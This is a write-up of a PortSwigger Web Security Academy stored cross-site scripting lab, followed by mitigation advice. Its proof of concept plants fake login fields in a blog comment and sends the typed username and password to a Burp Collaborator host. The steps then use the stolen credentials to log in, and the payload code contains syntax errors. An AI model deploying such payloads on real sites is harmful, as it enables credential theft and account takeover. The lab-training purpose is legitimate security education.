



# Exploiting cross-site scripting to capture passwords — Writes-up 

> **Target:** `https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords`  
> **Endpoint / Path:** `/post?postId=1`  
> **Date:** 2025-09-23  
> **Author:** ksunnwy

---

## 1. Summary

Stored Cross-Site Scripting (Stored XSS) vulnerability contains in the blog comments function, path: `/post?postId=1`. The malicious payload entered is stored on the server and displayed in the publicly accessible part of the website, allowing arbitrary JavaScript to be executed in the victim's browser.

**Brief Impact:** Remote JavaScript execution in the site's context → theft of cookies/tokens, sessions, performing actions on behalf of the user.

---

## 2. Impact

- **Level:** High  
- **Potential Impact:** Account takeover, data breach, identify theft, session theft, CSRF chaining, interface defacement, phishing frames, financial loss, reputation, further attacks, malware distribution, privilege escalation (potentially)

---

## 3. Instruments

- Burp Suite (Proxy, Collaborator)
- browser (DevTools)

---

## 4. Proof of Concept

Here's a minimal PoC and steps to reproduce:

### 4.1. Malicious Payload (demo)

> **Unsafe, demonstration payload (do not use in production systems):**

```html
<input name=username id=username>
<input 
	type=password 
	name=password 
	onchange="if(this. value.length)fetch'https://burp-collaborator-url', 
	{
		method: 'POST', 
		mode: 'no-cors, 
		body: username.value+' +this.value
	})" 
>
```

### 4.2. Example Steps (Burp)

1. Enable Burp Proxy and intercept the POST request to /post/comment`.
2. In the request body, change the `comment` parameter to the payload.
3. In Burp Collaborator, in the response to the POST request, get the username and password.

---

## 5. Steps to reproduce

1. Go to the post page (`/post?postId=1`).
2. Paste the payload into the comment field, after obtaining the Burp Collaborator URL.
3. Submit the comment.
4. Refresh the post page and verify that the input fields are displayed.
5. In Burp Collaborator, find the POST request from the victim user and retrieve the credentials.
6. Go to the `/login`
7. Enter the retrieved credentials into the username and password fields.

> **Expected behavior:** The characters < and > should be escaped or removed, or the content should be displayed as plain text and not HTML/JS.

---

## 6. Screenshots 

- `./screenshots/script.png` — payload on the website in the comment input field
- `./screenshots/credentials.png` — credentials in Burp Collaborator
- `./screenshots/login.png` — entered credentials on the `/login` page 
- `./screenshots/result.png` — solve the lab










---

## 7. Mitigation / Fix

1. **Output encoding / escaping**: when displaying user-generated content, use HTML encoding (e.g., <, >, &). Do not output raw HTML.
2. **Content Security Policy (CSP)**: implement a strict CSP that prohibits inline scripts ('unsafe-inline') and restricts external script sources.
3. **Validate input server-side**: only use libraries/frameworks, not on the client-side.
4. **Sanitization libraries**: use verified libraries for safe HTML rendering (e.g., for JS — DOMPurify, for the backend — appropriate escape functions).
5. **Review stored content rendering**: if content needs to support formatting (markdown), render it through a secure pipeline and prohibit raw HTML.

---

## 8. References / Additional Materials

- OWASP XSS Prevention Cheat Sheet
- PortSwigger Web Security Academy — Cross-site scripting (XSS)
- DOMPurify (if using client-side sanitization)

---

## 9. Notes / Ethical Disclaimers

- This PoC was created under test conditions. Do not use this code against systems without explicit permission from the owner (bug bounty program / signed engagement / pentest scope).


---
